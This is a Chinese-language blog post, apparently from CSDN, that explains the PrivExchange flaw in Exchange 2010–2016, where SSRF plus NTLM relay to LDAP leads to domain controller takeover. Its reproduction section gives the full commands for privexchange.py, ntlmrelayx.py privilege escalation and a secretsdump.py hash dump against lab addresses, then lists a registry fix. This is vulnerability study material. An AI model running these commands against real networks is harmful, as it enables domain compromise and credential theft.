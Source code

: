 **目录**

[漏洞描述](#t0 "漏洞描述")

[漏洞影响版本](#t1 "漏洞影响版本")

[漏洞过程](#t2 "漏洞过程")

[漏洞复现](#t3 "漏洞复现")

[漏洞修复](#t4 "漏洞修复")

* * *

漏洞描述
----

       Exchange Server于2018年11月份被爆出存在SSRF漏洞，可以伪造任意用户。但在之后又被爆出另外一种攻击方式，可以使用任意域内用户通过NTML Relay来接管域控！攻击者仅需要拥有一个普通域内[用户权限](https://so.csdn.net/so/search?q=%E7%94%A8%E6%88%B7%E6%9D%83%E9%99%90&spm=1001.2101.3001.7020)即可对存在漏洞的Exchange服务器发起攻击，进而接管域控。

漏洞影响版本
------

*   Exchange 2010 ~ Exchange 2016 

漏洞过程
----

        Exchange允许任何用户为推送订阅指定所需的URL，服务器将尝试向这个URL发送通知。问题出在Exchange服务器使用 [CredentialCache.DefaultCredentials](https://docs.microsoft.com/en-us/dotnet/api/system.net.credentialcache.defaultcredentials "CredentialCache.DefaultCredentials") 进行连接。由于传进的URL我们可控，也就是说我们可以控制Exchange向我们指定的服务器发起HTTP协议的NTLM 请求，我们就能拿到Exchange机器用户的 Net-Ntlm Hash，然后进行NTLM Relay到LDAP，由于Exchange服务器在域内权限较高，可以修改用户的ACL，于是我们可以修改指定用户的dcsync权限来dump域内哈希接管域控。

**漏洞复现**
--------

**方法一：**

```
python2 Exchange2domain.py -ah 10.211.55.2 -ap 80 -u test -p "P@ss1234" -d xie.com -th 10.211.55.4 10.211.55.5
```


![](https://img-blog.csdnimg.cn/20210630233125573.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20210630233153205.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**方法二：**

```
python2 privexchange.py -ah 10.211.55.2 -u test -p "P@ss1234" -d xie.com 10.211.55.5 --debug
```


![](https://img-blog.csdnimg.cn/20210701091838132.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

```
python3 ntlmrelayx.py -t ldap://10.211.55.4 --escalate-user test
```


![](https://img-blog.csdnimg.cn/20210701093741742.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20210701093809291.png)

```
python3 secretsdump.py xie.com/test:P@ss1234@10.211.55.4 -dc-ip 10.211.55.4 -just-dc-user administrator
```


![](https://img-blog.csdnimg.cn/20210701220224241.png)

![](https://img-blog.csdnimg.cn/img_convert/2c996eafef376f664a63f470ead1784a.png)

漏洞修复
----

删除注册表中的一个键值 DisableLoopbackCheck：

```
reg delete HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa /v DisableLoopbackCheck /f
```


  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)